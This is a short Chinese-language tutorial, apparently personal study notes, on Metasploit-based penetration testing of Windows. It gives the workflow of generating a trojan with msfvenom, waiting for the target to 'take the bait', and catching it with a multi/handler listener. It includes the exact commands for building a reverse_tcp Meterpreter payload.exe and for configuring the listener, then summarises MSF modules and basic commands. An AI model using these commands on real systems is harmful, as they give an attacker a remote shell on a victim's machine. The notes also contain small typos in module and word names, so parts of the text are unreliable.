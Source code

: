 ### 基于木马的渗透一般流程：

> 1. 使用msfvenom<mark>生成</mark>木马
> 2. 等待对方<mark>上钩</mark>
> 3. 使用handler模块<mark>利用</mark>木马

### windows平台简单渗透测试
1. **木马生成：** `msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<port> -f exe -o payload.exe`
2. **利用木马之前的配置：**
   1. `msfconsole` 进入MSF框架主控制台
   2. `use exploit/multi/hander` 使用模块
   3. `set payload windows/meterpreter/reverse_tcp` 设置攻击载荷
   4. `set lhost=<IP>`
   5. `set lport=<port>`
3. **执行：** `exploit | run`
4. **出现 <u>meterpreter></u> 即为成功** 
### msf(metasploit-frameword)简单理解
​	msf是一款可以快速利用已发现的漏洞或快速生成木马，进而进行渗透的框架。其模块和渗透成功后的执行脚本大多都是以Ruby语言实现的。
##### 渗透成功后的操作：
-  meterpreter
-  shell
##### 主要工具
- `msfvenom`	可以生成多平台的木马
##### 主要模块
-  `auxiliary`辅助模块
-  `exploit`漏洞模块
-  `payload`攻击载荷模块
##### 主要命令
- `use <moudule name> | <moudul index>`使用模块
- `show options` 列出当前使用的模块的配置参数
- `set <key>=<value>` 配置模块个属性的值
- `run` 一切准备就绪，开始监听